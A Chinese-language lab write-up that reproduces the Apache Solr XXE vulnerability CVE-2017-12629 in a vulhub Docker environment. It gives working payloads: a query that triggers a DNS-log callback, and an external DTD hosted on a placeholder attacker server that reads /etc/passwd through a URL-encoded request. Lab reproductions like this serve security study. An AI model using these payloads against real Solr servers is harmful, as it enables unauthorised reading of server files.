

# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>
<a-checkbox checked>Apache Lucene < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容

```
/solr/admin/cores
```


发送请求

```
/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

查看dnslog得到请求


在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```
/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fxxx.xxx.xxx.xxx%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```



注意这里的payload进行了url编码,请求的文件为 `http://xxx.xxx.xxx.xxx/1.dtd`，有更多需求自行更改写入的xml文件

